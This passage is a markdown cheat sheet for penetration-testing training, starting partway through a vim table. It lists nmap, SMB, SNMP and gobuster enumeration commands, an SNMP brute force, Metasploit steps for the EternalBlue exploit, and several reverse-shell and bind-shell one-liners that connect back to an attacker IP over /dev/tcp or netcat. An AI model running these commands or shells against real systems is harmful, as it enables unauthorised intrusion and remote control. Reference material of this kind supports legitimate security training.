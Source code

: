 | `:w` | vim: Write the file 'i.e. save' |
| `:q` | vim: Quit |
| `:q!` | vim: Quit without saving |
| `:wq` | vim: Write and quit |

#### Pentesting
| **Command**   | **Description**   |
| --------------|-------------------|
| **Service Scanning** |
| `nmap 10.129.42.253` | Run nmap on an IP |
| `nmap -sV -sC -p- 10.129.42.253` | Run an nmap script scan on an IP |
| `locate scripts/citrix` | List various available nmap scripts |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap script on an IP |
| `netcat 10.10.10.10 22` | Grab banner of an open port |
| `smbclient -N -L \\\\10.129.42.253` | List SMB Shares |
| `smbclient \\\\10.129.42.253\\users` | Connect to an SMB share |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP on an IP |
| `onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP secret string |
| **Web Enumeration** |
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | Run a directory scan on a website |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website |
| `curl -IL https://www.inlanefreight.com` | Grab website banner |
| `whatweb 10.10.10.121` | List details about the webserver/certificates |
| `curl 10.10.10.121/robots.txt` | List potential directories in `robots.txt` |
| `ctrl+U` | View page source (in Firefox) |
| **Public Exploits** |
| `searchsploit openssh 7.2` | Search for public exploits for a web application |
| `msfconsole` | MSF: Start the Metasploit Framework |
| `search exploit eternalblue` | MSF: Search for public exploits in MSF |
| `use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module |
| `show options` | MSF: Show required options for an MSF module |
| `set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option |
| `check` | MSF: Test if the target server is vulnerable |
| `exploit` | MSF: Run the exploit on the target server is vulnerable |
| **Using Shells** |
| `nc -lvnp 1234` | Start a `nc` listener on a local port |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server |